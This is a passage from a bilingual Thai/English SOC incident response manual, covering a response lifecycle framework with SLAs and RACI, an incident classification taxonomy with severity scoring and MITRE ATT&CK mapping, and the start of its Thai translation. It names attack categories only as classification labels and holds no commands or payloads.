| Playbook coverage (MITRE ATT&CK) | ≥ 80% ของเทคนิคสำคัญ | ทบทวนรายไตรมาส |
| ความถี่การซ้อม IR | ≥ 1 ครั้ง/ไตรมาส | บันทึกการซ้อม |
| อัตราใบรับรองของ analyst | ≥ 70% | บันทึกการฝึกอบรม |
| ความถูกต้องของรายชื่อเวร | 100% | ตรวจสอบรายเดือน |

---

## 2. การตรวจจับและวิเคราะห์ (Detection & Analysis)

ขั้นตอนที่สำคัญที่สุด — ระบุภัยคุกคามจริงและกรอง noise

### 2.1 แหล่งที่มาของ Alert

```mermaid
graph TD
    SIEM["SIEM Alerts"] --> Triage
    EDR["EDR Alerts"] --> Triage
    Email["Email Gateway"] --> Triage
    Users["รายงานจากผู้ใช้"] --> Triage
    TI["Threat Intel"] --> Triage
    Triage["🔍 คิวคัดกรอง"]
    Triage --> Classify{จำแนกประเภท}
    Classify -->|True Positive| Incident["เปิด Incident"]
    Classify -->|False Positive| FP["ปิด & ปรับแต่ง"]
    Classify -->|น่าสงสัย| Investigate["สืบสวนเพิ่มเติม"]
```

### 2.2 กระบวนการคัดกรอง (Tier 1)

| ขั้นตอน | การดำเนินการ | SLA |
|:---|:---|:---|
| 1 | **รับเรื่อง** — หยิบ alert จากคิว | < 10 นาที |
| 2 | **บริบท** — ตรวจสอบผู้ใช้, IP ต้นทาง, ความสำคัญของสินทรัพย์ | — |
| 3 | **Enrich** — สอบทาม TI feeds (VirusTotal, AbuseIPDB, URLScan) | — |
| 4 | **Correlate** — ค้นหาเหตุการณ์ที่เกี่ยวข้องใน SIEM (±1 ชั่วโมง) | — |
| 5 | **จำแนก** — กำหนด: TP / FP / น่าสงสัย | < 30 นาที |
| 6 | **ส่งต่อ** — TP → เปิด incident, FP → ปิด & tune, น่าสงสัย → Escalate | — |

### 2.3 การจำแนกประเภท

| มิติ | ตัวเลือก | อ้างอิง |
|:---|:---|:---|
| **ความรุนแรง** | Critical · High · Medium · Low | [Severity Matrix](Severity_Matrix.th.md) |
| **หมวดหมู่** | Phishing · Malware · Ransomware · Account Compromise · DDoS · Insider · Data Breach | [การจำแนกเหตุการณ์](Incident_Classification.th.md) |
| **ลำดับความสำคัญ** | P1 (ทันที) · P2 (เร่งด่วน) · P3 (ปกติ) · P4 (ต่ำ) | [Escalation Matrix](Escalation_Matrix.th.md) |

---

## 3. การจำกัดความเสียหาย (Containment)

วัตถุประสงค์: **หยุดเลือด** — จำกัดการเข้าถึงของผู้โจมตีและป้องกันความเสียหายเพิ่มเติม

### 3.1 กลยุทธ์การจำกัดวง

| ประเภท | การดำเนินการ | ใช้เมื่อ |
|:---|:---|:---|
| **ระยะสั้น** | แยกเครื่อง (EDR), บล็อก IP/domain (FW), ปิดบัญชี (IAM) | ทันทีเมื่อยืนยันผล |
| **ระยะยาว** | อุดช่องโหว่, แบ่ง segment เครือข่าย, บังคับ MFA | หลัง containment เบื้องต้น |

### 3.2 ตารางตัดสินใจ Containment

| ความรุนแรง | Auto-Contain? | ต้องอนุมัติ? | การสื่อสาร |
|:---|:---:|:---:|:---|
| **Critical** | ✅ ใช่ | แจ้ง Manager หลังดำเนินการ | Escalate ถึง CISO ทันที |
| **High** | ⚠️ บางส่วน | SOC Lead อนุมัติ | อีเมลถึง SOC Manager |
| **Medium** | ❌ ไม่ | ดุลยพินิจ Analyst | อัปเดต ticket |
| **Low** | ❌ ไม่ | ไม่จำเป็น | อัปเดต ticket |

### 3.3 การเก็บรักษาหลักฐาน

> ⚠️ **ก่อนกำจัด** ต้องเก็บรักษาเสมอ:
- Memory dump ของระบบที่ได้รับผลกระทบ
- Disk image (ถ้าความรุนแรงสูง)
- Network captures (PCAP)
- Log exports ที่เกี่ยวข้อง
- Screenshots ของ artifacts ของผู้โจมตี

---

## 4. การกำจัดภัยคุกคาม (Eradication)

| ประเภทภัยคุกคาม | ขั้นตอนการกำจัด |
|:---|:---|
| **Malware** | ลบไฟล์อันตราย, registry keys, scheduled tasks; สแกนด้วย signatures ล่าสุด |
| **บัญชีเข้ารหัส** | รีเซ็ตรหัสผ่าน, เพิกถอน session, ตรวจสอบกิจกรรมบัญชี |
| **ช่องโหว่** | ติดตั้ง patch, อัปเดตกฎ WAF, ตรวจสอบผล |
| **Persistence** | ลบ backdoors, rogue services, SSH keys ที่ไม่ได้อนุญาต |

---

## 5. การกู้คืนระบบ (Recovery)

| # | ขั้นตอน | ผู้รับผิดชอบ | การตรวจสอบ |
|:---:|:---|:---|:---|
| 1 | ติดตั้งระบบที่สะอาด/อัปเดตแล้ว | IT Ops | ตรวจ integrity |
| 2 | กู้คืนจาก backup ที่สะอาด | IT Ops | ตรวจ data integrity |
| 3 | เปิดการเชื่อมต่อเครือข่าย | Network Team | เฝ้าระวัง traffic |
| 4 | เปิดบัญชีผู้ใช้ | IAM Team | ตรวจสอบสิทธิ์ |
| 5 | เฝ้าระวังเข้มข้น | SOC | 24–72 ชั่วโมง |

### ระยะเวลาเฝ้าระวังเข้มข้น

| ความรุนแรง | ระยะเวลา | จุดสนใจ |
|:---|:---|:---|
| **Critical** | 72 ชั่วโมง | การติดเชื้อซ้ำ, lateral movement, data exfiltration |
| **High** | 48 ชั่วโมง | Persistence, C2 communication |
| **Medium** | 24 ชั่วโมง | Alert ที่คล้ายกัน, บัญชีที่เกี่ยวข้อง |
| **Low** | เฝ้าระวังปกติ | Standard alerting |

---

## 6. บทเรียนที่ได้รับ (Lessons Learned)

### 6.1 การทบทวนหลังเหตุการณ์ (PIR)

> PIR ต้องดำเนินการภายใน **72 ชั่วโมง** หลังปิดเหตุการณ์สำหรับ High/Critical

| หัวข้อ | คำถามที่ต้องตอบ |
|:---|:---|
| **Timeline** | เกิดอะไรขึ้นและเมื่อไหร่? ตรงตาม SLA ไหม? |
| **การตรวจจับ** | ตรวจจับได้อย่างไร? ตรวจจับเร็วกว่านี้ได้ไหม? |
| **การตอบสนอง** | การตอบสนองมีประสิทธิภาพไหม? อะไรดี / อะไรไม่ดี? |
| **การสื่อสาร** | สื่อสารกับผู้มีส่วนได้ส่วนเสียเพียงพอไหม? |
| **สาเหตุ** | อะไรทำให้เกิดการโจมตี? control ไหนล้มเหลว? |
| **การปรับปรุง** | เปลี่ยนแปลงอะไรเพื่อป้องกันไม่ให้เกิดซ้ำ? |

---

## ตาราง SLA ตามความรุนแรง

| ความรุนแรง | MTTA | MTTD | Containment | Eradication | Recovery | PIR |
|:---|:---:|:---:|:---:|:---:|:---:|:---:|
| **Critical** | 5 นาที | 15 นาที | 1 ชม. | 4 ชม. | 24 ชม. | จำเป็น (72 ชม.) |
| **High** | 10 นาที | 30 นาที | 4 ชม. | 24 ชม. | 48 ชม. | จำเป็น (72 ชม.) |
| **Medium** | 30 นาที | 2 ชม. | 24 ชม. | 72 ชม. | 1 สัปดาห์ | แนะนำ |
| **Low** | 1 ชม. | 8 ชม. | 72 ชม. | 1 สัปดาห์ | 2 สัปดาห์ | ไม่บังคับ |

---

## RACI Matrix

| กิจกรรม | SOC Analyst | SOC Lead | SOC Manager | CISO | IT Ops | Legal |
|:---|:---:|:---:|:---:|:---:|:---:|:---:|
| คัดกรอง Alert | **R** | A | I | — | — | — |
| สืบสวน | **R** | A | I | — | C | — |
| จำกัดวง | R | **A** | I | I | C | — |
| กำจัด | R | **A** | I | — | **R** | — |
| กู้คืน | C | I | A | I | **R** | — |
| สื่อสาร (ภายใน) | — | R | **A** | I | — | C |
| สื่อสาร (ภายนอก) | — | — | R | **A** | — | **R** |
| PIR | R | **R** | A | I | C | — |

*R = รับผิดชอบ, A = ตัดสินใจ, C = ให้คำปรึกษา, I = รับทราบ*

---

## IR Maturity Indicators

| ระดับ | ลักษณะ | ตัวชี้วัด |
|:---|:---|:---|
| **1 — Reactive** | ตอบสนองแบบ ad-hoc | ไม่มี MTTD/MTTR tracking |
| **2 — Repeatable** | มี playbook, มี process | MTTD < 24 ชม. |
| **3 — Defined** | Process สม่ำเสมอ, มี metrics | MTTD < 4 ชม., MTTR < 24 ชม. |
| **4 — Managed** | Data-driven, automated triage | MTTD < 1 ชม., MTTR < 8 ชม. |
| **5 — Optimizing** | Continuous improvement, proactive | MTTD < 15 นาที, MTTR < 4 ชม. |

## Incident Severity Classification Quick Reference

| ระดับ | เกณฑ์ | ตัวอย่าง | Response SLA |
|:---|:---|:---|:---:|
| 🔴 **P1 — Critical** | Business-critical ล่ม, data breach confirmed | Ransomware, active exfil | 15 นาที |
| 🟠 **P2 — High** | ระบบสำคัญถูกกระทบ, possible breach | Malware on server, lateral movement | 30 นาที |
| 🟡 **P3 — Medium** | Suspicious activity, no confirmed impact | Phishing click, policy violation | 2 ชม. |
| 🟢 **P4 — Low** | Info only, best effort | Failed login spike, scan activity | 8 ชม. |

## Lessons Learned Integration

```mermaid
graph LR
    Incident["🚨 Incident"] --> Resolve["✅ Resolve"]
    Resolve --> LL["📝 Lessons Learned"]
    LL --> Update["🔄 Update Playbooks"]
    Update --> Rules["📋 New Detection Rules"]
    Rules --> Train["📚 Training Update"]
    Train --> Better["🎯 ลด MTTD/MTTR"]
```

## เอกสารที่เกี่ยวข้อง

- [Tier 1 Runbook](Runbooks/Tier1_Runbook.th.md) — ขั้นตอนคัดกรองโดยละเอียด
- [Severity Matrix](Severity_Matrix.th.md) — เกณฑ์จำแนกประเภท
- [การจำแนกเหตุการณ์](Incident_Classification.th.md) — แท็กโซโนมีและหมวดหมู่
- [Escalation Matrix](Escalation_Matrix.th.md) — เส้นทาง escalation
- [การสืบสวนนิติวิทยาศาสตร์](Forensic_Investigation.th.md) — ขั้นตอนจัดการหลักฐาน
- [แบบฟอร์มรายงานเหตุการณ์](../11_Reporting_Templates/incident_report.th.md) — เอกสารหลังเหตุการณ์
- [มาตรฐานส่งมอบกะ](../06_Operations_Management/Shift_Handoff.th.md) — ความต่อเนื่องปฏิบัติการ

### Playbooks
- [PB-01 Phishing](Playbooks/Phishing.th.md) · [PB-02 Ransomware](Playbooks/Ransomware.th.md) · [PB-03 Malware](Playbooks/Malware_Infection.th.md)
- [PB-04 Account Compromise](Playbooks/Account_Compromise.th.md) · [PB-05 DDoS](Playbooks/DDoS_Attack.th.md) · [PB-06 BEC](Playbooks/BEC.th.md)

## IR Maturity Indicators

### Level Assessment

| Capability | Level 1 | Level 3 | Level 5 |
|:---|:---|:---|:---|
| Detection | Manual review | Rule-based | ML + Hunting |
| Response | Ad-hoc | Playbook-based | Automated |
| Communication | ไม่มีแผน | Templates | Automated notify |
| Recovery | Manual | Semi-automated | Full automation |
| Lessons Learned | ไม่ทำ | บางครั้ง | ทุกเหตุการณ์ |

### Incident Metrics Dashboard

| Metric | Formula | Target |
|:---|:---|:---|
| MTTD | First alert → Confirmed | < 15 min |
| MTTR | Confirmed → Resolved | < 4 hrs |
| MTTC | Confirmed → Contained | < 1 hr |
| Reopen Rate | Reopened / Total × 100 | < 5% |

### Framework Adoption Checklist

| Step | Activity | Timeline |
|:---|:---|:---|
| 1 | Define IR policy | Week 1-2 |
| 2 | Build core team | Week 2-3 |
| 3 | Create playbooks (top 5) | Week 3-6 |
| 4 | Tabletop exercise | Week 7 |
| 5 | Go-live + monitor | Week 8 |

### Quick Reference Card

| Phase | Key Action | SLA |
|:---|:---|:---|
| Detect | Triage alert | 15 min |
| Contain | Isolate threat | 1 hr |
| Eradicate | Remove cause | 4 hrs |
| Recover | Restore ops | 8 hrs |

## อ้างอิง (References)

- [NIST SP 800-61r2 — Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [ISO/IEC 27035 — Information Security Incident Management](https://www.iso.org/standard/60803.html)
- [SANS Incident Handler's Handbook](https://www.sans.org/white-papers/33901/)


---

## File: 05_Incident_Response/Incident_Classification.en.md

# Incident Classification Taxonomy

**Document ID**: IR-SOP-016
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> Consistent classification is critical for **accurate metrics**, **proper escalation**, and **compliance reporting**. This taxonomy ensures every analyst classifies incidents the same way.

---

## Classification Hierarchy

```mermaid
graph TD
    INC[🔔 New Incident] --> CAT[1. Category]
    CAT --> SUB[2. Sub-Category]
    SUB --> SEV[3. Severity P1-P4]
    SEV --> SCOPE[4. Scope]
    SCOPE --> TTP[5. MITRE ATT&CK TTP]
    TTP --> CLASSIFIED[✅ Fully Classified]

    style INC fill:#3b82f6,color:#fff
    style CLASSIFIED fill:#22c55e,color:#fff
```

Every incident MUST be classified along **5 dimensions** before triage is complete.

---

## 1. Incident Categories

| Code | Category | Description | Example |
|:---:|:---|:---|:---|
| **MAL** | Malware | Malicious software detected or executed | Ransomware, trojan, worm, cryptominer |
| **PHI** | Phishing / Social Engineering | Deception targeting people | Email phishing, vishing, smishing, BEC |
| **UNA** | Unauthorized Access | Illegitimate access to systems or data | Brute force, credential stuffing, stolen creds |
| **PRV** | Privilege Escalation | Gaining higher privileges than authorized | Local privilege escalation, admin abuse |
| **LAT** | Lateral Movement | Attacker moving between systems | Pass-the-hash, RDP abuse, WMI execution |
| **EXF** | Data Exfiltration / Leakage | Unauthorized data leaving the organization | DNS tunneling, cloud upload, USB copy |
| **DOS** | Denial of Service | Disrupting availability | DDoS, application-layer flood, resource exhaustion |
| **WEB** | Web Application Attack | Targeting web services | SQLi, XSS, SSRF, path traversal |
| **INS** | Insider Threat | Threats from within the organization | Data theft by employee, sabotage, policy violation |
| **CLD** | Cloud / SaaS Incident | Cloud-specific security events | IAM misconfiguration, exposed bucket, token theft |
| **SUP** | Supply Chain | Compromise through trusted third party | Compromised update, dependency hijack |
| **VUL** | Vulnerability Exploitation | Exploiting known or zero-day vulnerabilities | CVE exploitation, zero-day, misconfiguration |
| **POL** | Policy Violation | Violation of security policies | Shadow IT, unapproved software, data mishandling |
| **PHY** | Physical Security | Physical security breaches | Lost device, tailgating, unauthorized facility access |
| **OTH** | Other / Unclassified | Does not fit any category above | — |

---

## 2. Sub-Categories (by Parent Category)

<details>
<summary><b>MAL — Malware Sub-Categories</b></summary>

| Code | Sub-Category | Description |
|:---:|:---|:---|
| MAL-RAN | Ransomware | Encryption + ransom demand |
| MAL-TRO | Trojan / RAT | Remote access backdoor |
| MAL-WRM | Worm | Self-propagating malware |
| MAL-CRY | Cryptominer | Unauthorized mining activity |
| MAL-BOT | Botnet | Part of command & control network |
| MAL-WIP | Wiper | Destructive malware (data destruction) |
| MAL-DRP | Dropper / Loader | Downloads and installs additional malware |
| MAL-PUP | PUP / Adware | Potentially unwanted program |

</details>

<details>
<summary><b>PHI — Phishing / Social Engineering Sub-Categories</b></summary>

| Code | Sub-Category | Description |
|:---:|:---|:---|
| PHI-EML | Email Phishing | Malicious email with link or attachment |
| PHI-SPR | Spear Phishing | Targeted phishing against specific individuals |
| PHI-BEC | Business Email Compromise | Impersonation for financial fraud |
| PHI-VSH | Vishing | Voice-based social engineering |
| PHI-SMI | Smishing | SMS-based phishing |
| PHI-QRS | QR Phishing (Quishing) | Malicious QR codes |

</details>

<details>
<summary><b>UNA — Unauthorized Access Sub-Categories</b></summary>

| Code | Sub-Category | Description |
|:---:|:---|:---|
| UNA-BRU | Brute Force | Password guessing attack |
| UNA-CRD | Credential Theft | Stolen or compromised credentials |
| UNA-IMP | Impossible Travel | Login from geographically impossible location |
| UNA-MFA | MFA Bypass / Fatigue | Circumventing multi-factor authentication |
| UNA-DEF | Default Credentials | Using unchanged default passwords |
| UNA-SSO | SSO / Token Abuse | OAuth token theft or replay |

</details>

<details>
<summary><b>CLD — Cloud / SaaS Sub-Categories</b></summary>

| Code | Sub-Category | Description |
|:---:|:---|:---|
| CLD-IAM | IAM Misconfiguration | Overly permissive roles or policies |
| CLD-EXP | Public Exposure | Publicly accessible storage/service |
| CLD-TOK | Token / Key Leak | API keys or tokens exposed |
| CLD-CFG | Infrastructure Misconfiguration | Security group, network, or config issue |
| CLD-BIL | Billing Anomaly | Unexpected cost increase (possible compromise) |

</details>

<details>
<summary><b>EXF — Data Exfiltration Sub-Categories</b></summary>

| Code | Sub-Category | Description |
|:---:|:---|:---|
| EXF-DNS | DNS Tunneling | Data exfiltration via DNS |
| EXF-WEB | Web Upload | Upload to cloud storage / paste site |
| EXF-USB | Removable Media | Data copy to USB/external drive |
| EXF-EML | Email | Bulk data sent via email |
| EXF-ENC | Encrypted Channel | Exfiltration over encrypted tunnel |

</details>

---

## 3. Severity Classification

> Reference: [Severity Matrix](Severity_Matrix.en.md) for full definitions.

| Severity | Impact Criteria | Examples |
|:---:|:---|:---|
| **P1** 🔴 Critical | Immediate business impact, data breach, multiple systems compromised | Active ransomware, confirmed data breach, compromise of critical infrastructure |
| **P2** 🟠 High | Significant impact, single system compromised, potential for spread | Confirmed malware, account takeover, lateral movement detected |
| **P3** 🟡 Medium | Limited impact, contained or potential threat | Phishing (no click), policy violation, suspicious but unconfirmed |
| **P4** 🔵 Low | Minimal/no impact, informational | False positive, vulnerability scan finding, known acceptable risk |

### Severity Scoring Formula

Use this formula when severity is not immediately obvious:

| Factor | Weight | Score 1 (Low) | Score 2 (Med) | Score 3 (High) | Score 4 (Critical) |
|:---|:---:|:---|:---|:---|:---|
| **Confidentiality Impact** | 3× | No data | Internal data | Customer PII | Financial/health data |
| **Number of Systems** | 2× | 1 system | 2–10 systems | 11–100 systems | 100+ / critical infra |
| **Active Threat** | 3× | Historical/FP | Possible | Likely | Confirmed active |
| **Containment** | 2× | Already contained | Partially contained | Not contained | Spreading |

**Score Thresholds:**
- 10–15 → P4, 16–25 → P3, 26–35 → P2, 36–40 → P1

---

## 4. Scope Classification

| Scope | Definition | Example |
|:---:|:---|:---|
| **Individual** | Single user or endpoint affected | One laptop with malware |
| **Departmental** | Multiple users/systems in one department | Finance team phishing campaign |
| **Organizational** | Affects multiple departments or sites | Ransomware spreading across network |
| **External** | Involves third parties, customers, or public | Customer data breach, public exposure |
| **Industry** | Part of a wider campaign targeting the sector | APT targeting financial sector |

---

## 5. MITRE ATT&CK Mapping

Every incident MUST be mapped to at least one ATT&CK technique.

| Tactic | Common Techniques | Example Incident |
|:---|:---|:---|
| **Initial Access** | T1566 (Phishing), T1190 (Exploit), T1133 (External Remote Services) | Phishing email with macro |
| **Execution** | T1059 (Command/Scripting), T1204 (User Execution) | PowerShell download cradle |
| **Persistence** | T1053 (Scheduled Task), T1547 (Boot/Logon Autostart) | New scheduled task for backdoor |
| **Privilege Escalation** | T1548 (Abuse Elevation), T1068 (Exploitation for PE) | Local admin exploit |
| **Defense Evasion** | T1027 (Obfuscation), T1070 (Indicator Removal) | Log clearing after compromise |
| **Credential Access** | T1003 (OS Credential Dumping), T1110 (Brute Force) | LSASS memory dump |
| **Discovery** | T1087 (Account Discovery), T1018 (Remote System Discovery) | AD enumeration |
| **Lateral Movement** | T1021 (Remote Services), T1570 (Lateral Tool Transfer) | PsExec to domain controller |
| **Collection** | T1560 (Archive Collected Data), T1114 (Email Collection) | Zip file staging |
| **C2** | T1071 (Application Layer Protocol), T1572 (Protocol Tunneling) | HTTPS beacon to C2 server |
| **Exfiltration** | T1048 (Exfiltration Over Alternative Protocol), T1567 (Exfil Over Web Service) | DNS tunneling data out |
| **Impact** | T1486 (Data Encrypted for Impact), T1489 (Service Stop) | Ransomware encryption |

---

## Classification Workflow

```mermaid
flowchart TD
    A[Alert Received] --> B[Assign Category Code]
    B --> C[Assign Sub-Category]
    C --> D[Determine Severity P1-P4]
    D --> E[Determine Scope]
    E --> F[Map to MITRE TTP]
    F --> G{All 5 fields filled?}
    G -->|Yes| H[✅ Classification Complete]
    G -->|No| I[🔄 Gather more info]
    I --> B
    H --> J[Proceed to Investigation]

    style A fill:#3b82f6,color:#fff
    style H fill:#22c55e,color:#fff
    style I fill:#f59e0b,color:#fff
```

### Ticket Classification Template

```
Category:      [MAL/PHI/UNA/PRV/LAT/EXF/DOS/WEB/INS/CLD/SUP/VUL/POL/PHY/OTH]
Sub-Category:  [e.g., MAL-RAN]
Severity:      [P1/P2/P3/P4]
Scope:         [Individual/Departmental/Organizational/External/Industry]
MITRE TTP:     [T-code(s), e.g., T1486, T1059.001]
```

---

## Reclassification Rules

| Trigger | Action |
|:---|:---|
| New evidence changes impact assessment | Reclassify severity, document reason |
| Additional systems found compromised | Upgrade scope, consider severity upgrade |
| Root cause changes category | Update category & sub-category |
| False positive confirmed | Downgrade to P4 or close |
| Escalation timeline exceeded | Auto-upgrade by one severity level |

> ⚠️ **All reclassifications must be documented** with timestamp and reason in the ticket.

---

## Classification Metrics

Track these metrics to ensure consistent classification:

| Metric | Target | Why It Matters |
|:---|:---:|:---|
| % of incidents fully classified | ≥ 95% | Ensures taxonomy adoption |
| Reclassification rate | < 15% | Indicates initial accuracy |
| Time to classify | < 10 min | Ensures triage speed |
| MITRE coverage (unique techniques seen) | Track trend | Measures threat landscape visibility |
| Category distribution | Track monthly | Identifies trends and emerging threats |

---

## Related Documents

-   [Severity Matrix](Severity_Matrix.en.md) — Full severity definitions
-   [Escalation Matrix](Escalation_Matrix.en.md) — Who to escalate to by severity
-   [IR Framework](Framework.en.md) — Incident response lifecycle
-   [Tier 1 Runbook](Runbooks/Tier1_Runbook.en.md) — Analyst triage procedures
-   [SOAR Playbooks](SOAR_Playbooks.en.md) — Automated response playbooks
-   [Threat Hunting Playbook](Threat_Hunting_Playbook.en.md) — Proactive hunting


---

## File: 05_Incident_Response/Incident_Classification.th.md

# Incident Classification Taxonomy / อนุกรมวิธานการจำแนกเหตุการณ์

**รหัสเอกสาร**: IR-SOP-016
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> การจำแนกเหตุการณ์อย่างสม่ำเสมอมีความสำคัญต่อ **ตัวชี้วัดที่แม่นยำ**, **การส่งต่อที่ถูกต้อง**, และ **การรายงานตามกฎหมาย** อนุกรมวิธานนี้ช่วยให้ analyst ทุกคนจำแนกเหตุการณ์ในรูปแบบเดียวกัน

---

## ลำดับชั้นการจำแนก

```mermaid
graph TD
    INC[🔔 เหตุการณ์ใหม่] --> CAT[1. หมวดหมู่]
    CAT --> SUB[2. หมวดย่อย]
    SUB --> SEV[3. ระดับความรุนแรง P1-P4]
    SEV --> SCOPE[4. ขอบเขต]
    SCOPE --> TTP[5. MITRE ATT&CK TTP]
    TTP --> CLASSIFIED[✅ จำแนกครบ]

    style INC fill:#3b82f6,color:#fff
    style CLASSIFIED fill:#22c55e,color:#fff
```

ทุกเหตุการณ์ **ต้อง** จำแนกใน **5 มิติ** ก่อนจบการ triage

---

## 1. หมวดหมู่เหตุการณ์

| รหัส | หมวดหมู่ | คำอธิบาย | ตัวอย่าง |
|:---:|:---|:---|:---|
| **MAL** | มัลแวร์ | ซอฟต์แวร์อันตรายถูกตรวจพบหรือทำงาน | Ransomware, trojan, worm, cryptominer |
| **PHI** | Phishing / Social Engineering | หลอกลวงที่มุ่งเป้าคน | Email phishing, vishing, smishing, BEC |
| **UNA** | การเข้าถึงโดยไม่ได้รับอนุญาต | เข้าถึงระบบหรือข้อมูลอย่างผิดกฎ | Brute force, credential stuffing |
| **PRV** | การยกระดับสิทธิ์ | ได้สิทธิ์สูงกว่าที่อนุญาต | Local privilege escalation, admin abuse |
| **LAT** | Lateral Movement | ผู้โจมตีเคลื่อนตัวระหว่างระบบ | Pass-the-hash, RDP abuse |
| **EXF** | การนำข้อมูลออก / รั่วไหล | ข้อมูลออกจากองค์กรโดยไม่ได้รับอนุญาต | DNS tunneling, cloud upload |
| **DOS** | Denial of Service | ทำให้ระบบหยุดให้บริการ | DDoS, resource exhaustion |
| **WEB** | การโจมตี Web Application | มุ่งเป้า web services | SQLi, XSS, SSRF |
| **INS** | ภัยคุกคามจากภายใน | ภัยคุกคามจากคนในองค์กร | ขโมยข้อมูล, sabotage |
| **CLD** | เหตุการณ์ Cloud / SaaS | ปัญหาความปลอดภัยเฉพาะ cloud | IAM misconfiguration, bucket เปิดสาธารณะ |
| **SUP** | Supply Chain | บุกรุกผ่านบุคคลที่สามที่เชื่อถือ | Compromised update |
| **VUL** | การใช้ช่องโหว่ | ใช้ช่องโหว่ที่รู้จักหรือ zero-day | CVE exploitation |
| **POL** | การละเมิดนโยบาย | ละเมิดนโยบายความปลอดภัย | Shadow IT, ซอฟต์แวร์ไม่ได้รับอนุมัติ |
| **PHY** | ความปลอดภัยทางกายภาพ | การละเมิดทางกายภาพ | อุปกรณ์หาย, tailgating |
| **OTH** | อื่น ๆ | ไม่เข้าหมวดใด | — |

---

## 2. หมวดย่อย (ตามหมวดหลัก)

<details>
<summary><b>MAL — หมวดย่อยมัลแวร์</b></summary>

| รหัส | หมวดย่อย | คำอธิบาย |
|:---:|:---|:---|
| MAL-RAN | Ransomware | เข้ารหัสข้อมูล + เรียกค่าไถ่ |
| MAL-TRO | Trojan / RAT | Backdoor เข้าถึงระยะไกล |
| MAL-WRM | Worm | มัลแวร์แพร่กระจายเอง |
| MAL-CRY | Cryptominer | ขุดเหมืองโดยไม่ได้รับอนุญาต |
| MAL-BOT | Botnet | เป็นส่วนหนึ่งของ C2 network |
| MAL-WIP | Wiper | มัลแวร์ทำลายข้อมูล |
| MAL-DRP | Dropper / Loader | ดาวน์โหลดและติดตั้งมัลแวร์เพิ่ม |
| MAL-PUP | PUP / Adware | โปรแกรมไม่พึงประสงค์ |

</details>

<details>
<summary><b>PHI — หมวดย่อย Phishing</b></summary>

| รหัส | หมวดย่อย | คำอธิบาย |
|:---:|:---|:---|
| PHI-EML | Email Phishing | Email อันตรายมี link หรือ attachment |
| PHI-SPR | Spear Phishing | Phishing มุ่งเป้าบุคคลเฉพาะ |
| PHI-BEC | BEC | ปลอมตัวเพื่อฉ้อโกงทางการเงิน |
| PHI-VSH | Vishing | หลอกลวงทางโทรศัพท์ |
| PHI-SMI | Smishing | Phishing ผ่าน SMS |
| PHI-QRS | QR Phishing (Quishing) | QR code อันตราย |

</details>

<details>
<summary><b>UNA — หมวดย่อยการเข้าถึงผิดกฎ</b></summary>

| รหัส | หมวดย่อย | คำอธิบาย |
|:---:|:---|:---|
| UNA-BRU | Brute Force | โจมตีด้วยการเดารหัสผ่าน |
| UNA-CRD | Credential Theft | ข้อมูลรับรองถูกขโมย |
| UNA-IMP | Impossible Travel | Login จากสถานที่ที่เป็นไปไม่ได้ |
| UNA-MFA | MFA Bypass / Fatigue | หลีกเลี่ยง MFA |
| UNA-DEF | Default Credentials | ใช้รหัสผ่านเริ่มต้นที่ไม่เปลี่ยน |
| UNA-SSO | SSO / Token Abuse | ขโมยหรือ replay OAuth token |

</details>

<details>
<summary><b>CLD — หมวดย่อย Cloud</b></summary>

| รหัส | หมวดย่อย | คำอธิบาย |
|:---:|:---|:---|
| CLD-IAM | IAM Misconfiguration | Role หรือ policy อนุญาตมากเกินไป |
| CLD-EXP | Public Exposure | Storage/service เปิดสาธารณะ |
| CLD-TOK | Token / Key Leak | API keys หรือ tokens ถูกเปิดเผย |
| CLD-CFG | Infrastructure Misconfiguration | Security group, network config ผิด |
| CLD-BIL | Billing Anomaly | ค่าใช้จ่ายเพิ่มสูงผิดปกติ |

</details>

<details>
<summary><b>EXF — หมวดย่อยการนำข้อมูลออก</b></summary>

| รหัส | หมวดย่อย | คำอธิบาย |
|:---:|:---|:---|
| EXF-DNS | DNS Tunneling | นำข้อมูลออกผ่าน DNS |
| EXF-WEB | Web Upload | อัปโหลดไป cloud storage / paste site |
| EXF-USB | Removable Media | คัดลอกข้อมูลใส่ USB/external drive |
| EXF-EML | Email | ส่งข้อมูลจำนวนมากทาง email |
| EXF-ENC | Encrypted Channel | นำข้อมูลออกผ่าน encrypted tunnel |

</details>

---

## 3. การจำแนกระดับความรุนแรง

> อ้างอิง: [Severity Matrix](Severity_Matrix.en.md) สำหรับนิยามเต็ม

| ระดับ | เกณฑ์ผลกระทบ | ตัวอย่าง |
|:---:|:---|:---|
| **P1** 🔴 วิกฤต | กระทบธุรกิจทันที, ข้อมูลรั่ว, หลายระบบถูกบุกรุก | Ransomware ทำงาน, data breach ยืนยัน |
| **P2** 🟠 สูง | กระทบมาก, ระบบเดียวถูกบุกรุก, มีโอกาสแพร่กระจาย | Malware ยืนยัน, account takeover |
| **P3** 🟡 ปานกลาง | กระทบจำกัด, ควบคุมได้หรือเป็นไปได้ | Phishing (ไม่มีคนคลิก), ละเมิดนโยบาย |
| **P4** 🔵 ต่ำ | กระทบน้อย/ไม่กระทบ, ข้อมูลแจ้งเตือน | False positive, ผล vulnerability scan |

### สูตรคำนวณความรุนแรง

| ปัจจัย | น้ำหนัก | คะแนน 1 (ต่ำ) | คะแนน 2 (กลาง) | คะแนน 3 (สูง) | คะแนน 4 (วิกฤต) |
|:---|:---:|:---|:---|:---|:---|
| **ผลกระทบต่อความลับ** | 3× | ไม่มีข้อมูล | ข้อมูลภายใน | PII ลูกค้า | ข้อมูลการเงิน/สุขภาพ |
| **จำนวนระบบ** | 2× | 1 ระบบ | 2–10 ระบบ | 11–100 ระบบ | 100+ / ระบบวิกฤต |
| **ภัยคุกคามที่ยังทำงาน** | 3× | เก่า/FP | เป็นไปได้ | น่าจะใช่ | ยืนยันว่าทำงานอยู่ |
| **การควบคุม** | 2× | ควบคุมได้แล้ว | ควบคุมบางส่วน | ยังไม่ควบคุม | กำลังแพร่กระจาย |

**เกณฑ์คะแนน:**
- 10–15 → P4, 16–25 → P3, 26–35 → P2, 36–40 → P1

---

## 4. การจำแนกขอบเขต

| ขอบเขต | นิยาม | ตัวอย่าง |
|:---:|:---|:---|
| **บุคคล** | ผู้ใช้หรือ endpoint เดียวได้รับผลกระทบ | Laptop เครื่องเดียวมี malware |
